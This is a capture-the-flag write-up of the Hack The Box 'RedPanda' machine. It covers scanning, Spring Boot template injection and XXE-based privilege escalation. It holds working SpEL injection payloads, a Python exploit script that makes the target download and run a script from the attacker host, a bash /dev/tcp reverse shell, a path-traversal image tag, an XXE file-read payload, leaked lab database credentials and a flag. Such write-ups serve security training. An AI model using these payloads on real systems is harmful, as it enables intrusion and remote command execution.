


# Enum

## Nmap

Nmap init:
```sh
export IP=10.10.11.170
nmap -sV --open -oA enum/init $IP
```

Open another window and scan full:

```sh
export IP=10.10.11.170
sudo nmap -sC -sV -O -p- -oA enum/full $IP
```

Output:
```sh
# Nmap 7.92 scan initiated Sat Aug 27 00:16:59 2022 as: nmap -sC -sV -O -p- -oA enum/full 10.10.11.170
Nmap scan report for 10.10.11.170
Host is up (0.083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Sat, 27 Aug 2022 04:21:43 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Sat, 27 Aug 2022 04:21:43 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 27 Aug 2022 04:21:43 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Red Panda Search | Made with Spring Boot
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=8/27%Time=63099BD7%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charse
SF:t=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Sat,\x2027\x20Aug\x20
SF:2022\x2004:21:43\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20htm
SF:l>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\
SF:x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"woode
SF:n_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepe
SF:n\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/c
SF:ss\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20w
SF:ith\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\
SF:x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20r
SF:ight'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x
SF:20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</
SF:div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x
SF:20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Sa
SF:t,\x2027\x20Aug\x202022\x2004:21:43\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/
SF:html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435
SF:\r\nDate:\x20Sat,\x2027\x20Aug\x202022\x2004:21:43\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>H
SF:TTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x2
SF:0type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1
SF:,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x
SF:20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px
SF:;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{heigh
SF:t:1px;background-color:#525D76;border:none;}</style></head><body><h1>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html
SF:>");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/27%OT=22%CT=1%CU=44581%PV=Y%DS=2%DC=I%G=Y%TM=63099BF
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:02%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 27 00:22:10 2022 -- 1 IP address (1 host up) scanned in 310.66 seconds

```
We check detail web service on port 8080, which is running with Java Spring Boot:
```
|_http-title: Red Panda Search | Made with Spring Boot
```

## Whatweb
```sh
┌──(kali㉿kali)-[~/Workspace/labs-htb/RedPanda]
└─$ whatweb http://$IP:8080                     
http://10.10.11.170:8080 [200 OK] Content-Language[en-US], Country[RESERVED][ZZ], HTML5, IP[10.10.11.170], Title[Red Panda Search | Made with Spring Boot]
```
```
[Red Panda Search | Made with Spring Boot]
```
## Gobuster
```
gobuster dir -u http://$IP:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt
```

Click on `search` button - there was hint about **injection** :


Found some interesting site:


We grab some accounts: 

```
woodenk
damian
```
After click to their name we found there is `/img` path that locale image. So i think there will be upload the payload and excute them.
Function `export` for each user:


We tried SQLi injection but no luck.
Go to to find the list injection attack from there.
[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) 
Test with `Burpsuite Intruder`:


Look like it vulneable with character `#` and `*`.
# Exploit
Go to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) to find injection with Java. The tips is we need to use `#` or `*` to bypass the filter.

## Java

### Java - Basic injection
>Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```


### Java - Retrieve the system’s environment variables
```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

As the note at begin, we should replace the `$` with `#` or `*` to test.

We found somethings interest with `*`.


There is user `woodenk` at OS. And the web application is running on user `woodenk`.
Lets go deeper to find a way to revershell.
## Revershell
As above we see that the code only work when the each string have been converted from `asci` char to `char` code.
Lets try write some code

```python
#!/usr/bin/python3  
command = "whoami"  
convert = []  
payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
payload2 = ''  

payload = payload + "T(java.lang.Character).toString(%s)" % ord(command[0])  
for i in range(1,len(command)):  
    char = ""  
    # print(ord(i))  
    char = ord(command[i])  
    payload2 = ".concat(T(java.lang.Character).toString(%s))" % char  
    payload = payload + payload2  
  
payload = payload + ").getInputStream())}"  
print(payload)
```
Replace the command with some payload.
Tried to exploit with direct command `nc` - not working.
After so many tried finally i got the revershell. Damn..
- Step 1: Download the `rev.sh` to victim machine ( i am run `python -m http.server 8088` -  at current directory)
```python
#!/usr/bin/python3  
command = "curl -o /tmp/rev.sh http://10.10.14.10:8088/rev.sh"  
convert = []  
payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
payload2 = ''  

payload = payload + "T(java.lang.Character).toString(%s)" % ord(command[0])  
for i in range(1,len(command)):  
    char = ""  
    # print(ord(i))  
    char = ord(command[i])  
    payload2 = ".concat(T(java.lang.Character).toString(%s))" % char  
    payload = payload + payload2  
  
payload = payload + ").getInputStream())}"  
print(payload)
```
- Step 2:
```python
#!/usr/bin/python3  
command = "bash /tmp/rev.sh"  
convert = []  
payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
payload2 = ''  
  
payload = payload + "T(java.lang.Character).toString(%s)" % ord(command[0])  
for i in range(1,len(command)):  
    char = ""  
    # print(ord(i))  
    char = ord(command[i])  
    payload2 = ".concat(T(java.lang.Character).toString(%s))" % char  
    payload = payload + payload2  
  
payload = payload + ").getInputStream())}"  
print(payload)
```

The `rev.sh` :
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.10/1234 0>&1"
```

Copy the output of step 1 and step 2 to use with `Burp Repeater`. 



We got the revershell. Well.
Lets try to automate full process with `auto_exploit.py`
```python
#!/usr/bin/python3  
import requests  
IP = '10.10.11.170'  
PORT = '8080'  
command = ['whoami','curl -o /tmp/rev.sh http://10.10.14.10:8088/rev.sh', 'bash /tmp/rev.sh']  
def convert_to_char(c):  
    payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
    payload2 = ''  
    payload = payload + "T(java.lang.Character).toString(%s)" % ord(c[0])  
    for i in range(1, len(c)):  
        payload2 = ".concat(T(java.lang.Character).toString(%s))" % ord(c[i])  
        payload = payload + payload2  
  
    payload = payload + ").getInputStream())}"  
    return(payload)  
  
for c in command:  
    d = {'name': convert_to_char(c)}  
    url = 'http://%s:%s/search' % (IP,PORT)  
    r = requests.post(url,data = d)  
    print(r.status_code)
```


open 2 new tab with `http.server 8088` and `rlwrap nc -nvlp 1234`. At the 3 tabs run `python3 auto_exploit.py`
The `user.txt` flag:
```
efaa8f33e98ff3993b20c6bade76a83a
```

# Foothold
Check the port open with `netstat -tulpn`
```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::8080                 :::*                    LISTEN      887/java
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

Check the `id,group`
```bash
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

Check the process with `pspy64`

I think there are some process that running in `cronjob`:


```bash
2022/08/28 09:06:01 CMD: UID=0    PID=3052   | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
```

Check `linpeas.sh` scripts

There some process
```bash
root         884  0.0  0.0   2608   532 ?        Ss   Aug27   0:00      _ /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.j
ar
root         885  0.0  0.2   9420  4580 ?        S    Aug27   0:00          _ sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```

and some weird permission for `syslog`
```
uid=104(syslog) gid=110(syslog) groups=110(syslog),4(adm),5(tty)
```

```bash
grep -R "3306" .
Binary file ./target/classes/com/panda_search/htb/panda_search/SqlController.class matches
Binary file ./target/classes/com/panda_search/htb/panda_search/MainController.class matches
./src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
woodenk@redpanda:/opt/panda_search$
```

```mysql
DB: red_panda
user: woodenk
pass: RedpandazRule
Host: localhost
Port:3306
```
Humm.
Tried to login to `mysql`. But there no luck.
Base on gathering info, i think there will be escalate with somethings with term `logs`. (user in `logs` group, and `syslog` user in `adm` group).

There alot of file in `/opt/` directory. I will download the whole to my `kali` machine. Let's examine the code.

```java
package com.logparser;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.util.HashMap;
import java.util.Map;
import java.util.Scanner;

import com.drew.imaging.jpeg.JpegMetadataReader;
import com.drew.imaging.jpeg.JpegProcessingException;
import com.drew.metadata.Directory;
import com.drew.metadata.Metadata;
import com.drew.metadata.Tag;

import org.jdom2.JDOMException;
import org.jdom2.input.SAXBuilder;
import org.jdom2.output.Format;
import org.jdom2.output.XMLOutputter;
import org.jdom2.*;

public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        

        return map;
    }
    public static boolean isImage(String filename){
        if(filename.contains(".jpg"))
        {
            return true;
        }
        return false;
    }
    public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
                {
                    return tag.getDescription();
                }
            }
        }

        return "N/A";
    }
    public static void addViewTo(String path, String uri) throws JDOMException, IOException
    {
        SAXBuilder saxBuilder = new SAXBuilder();
        XMLOutputter xmlOutput = new XMLOutputter();
        xmlOutput.setFormat(Format.getPrettyFormat());

        File fd = new File(path);
        
        Document doc = saxBuilder.build(fd);
        
        Element rootElement = doc.getRootElement();
 
        for(Element el: rootElement.getChildren())
        {
    
            
            if(el.getName() == "image")
            {
                if(el.getChild("uri").getText().equals(uri))
                {
                    Integer totalviews = Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1;
                    System.out.println("Total views:" + Integer.toString(totalviews));
                    rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                    Integer views = Integer.parseInt(el.getChild("views").getText());
                    el.getChild("views").setText(Integer.toString(views + 1));
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
    public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
            String line = log_reader.nextLine();
            if(!isImage(line))
            {
                continue;
            }
            Map parsed_data = parseLog(line);
            System.out.println(parsed_data.get("uri"));
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            String xmlPath = "/credits/" + artist + "_creds.xml";
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }

    }
}

```
1. The main program read the log locate in `/opt/panda_search/redpanda.log`. We have permission to write direct to this file beside with logs for access via webpage.
2. The `log` need to have 4 part, and delimeter with `||`
```java
	public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        

        return map;
    }
```
3. The image must have extension `.jpg`
```java
	public static boolean isImage(String filename){
        if(filename.contains(".jpg"))
        {
            return true;
        }
        return false;
    }
```
4. 
- The `image` is access with path `/opt/panda_search/src/main/resources/static` + `uri`.
- The image need to have tags with key `Artist` and the value is artist name.
- This code can be directory travesal.
```java
    public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
                {
                    return tag.getDescription();
                }
            }
        }

        return "N/A";
    }
```
5. We don't have write permission to `/credits/` path.
6. The xml format file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>4</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>1</views>
  </image>
  <totalviews>5</totalviews>
</credits>
```

OK. I think that enough. We have write access to `redpanda.log` file, and this file is parse by a program that running in crontab with `root` account.

# Escalate Privilege
## Prepare the payload
1. The image payload
- We create image with `Artist` tag. Cause we don't have write permission on `/credits/` to update the value of xml. We need to use directory travesal to another directory that we can write the data. We can use `/home/woodenk/` or `/tmp`. I will chose `/tmp`.
- We using `exiftool` for write tags to our payload image.
```sh
┌──(kali㉿kali)-[~/Workspace/labs-htb/RedPanda]
└─$ exiftool -Artist="../tmp/pe" pe.jpg
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "UTF-8",
        LC_TERMINAL = "iTerm2",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to a fallback locale ("en_US.UTF-8").
    1 image files updated

┌──(kali㉿kali)-[~/Workspace/labs-htb/RedPanda]
└─$ exiftool pe.jpg
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "UTF-8",
        LC_TERMINAL = "iTerm2",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to a fallback locale ("en_US.UTF-8").
ExifTool Version Number         : 12.44
File Name                       : pe.jpg
Directory                       : .
File Size                       : 128 kB
File Modification Date/Time     : 2022:08:30 06:10:36-04:00
File Access Date/Time           : 2022:08:30 06:10:36-04:00
File Inode Change Date/Time     : 2022:08:30 06:10:36-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Artist                          : ../tmp/pe
Y Cb Cr Positioning             : Centered
Image Width                     : 1280
Image Height                    : 853
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1280x853
Megapixels                      : 1.1

┌──(kali㉿kali)-[~/Workspace/labs-htb/RedPanda]
```
2. The xml code for Privilege Escalation.
[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
We will create a file like the this and save file to `pe_credits.xml`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<credits>
  <author>pe</author>
  <image>
    <uri>../../../../../../../pe.jpg</uri>
    <views>4</views>
    <foo>&xxe;</foo>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>1</views>
  </image>
  <totalviews>5</totalviews>
</credits>
```
3. The log that need to write to `redpanda.log`
```sh
200||127.0.0.1||curl||../../../../../../../pe.jpg
```
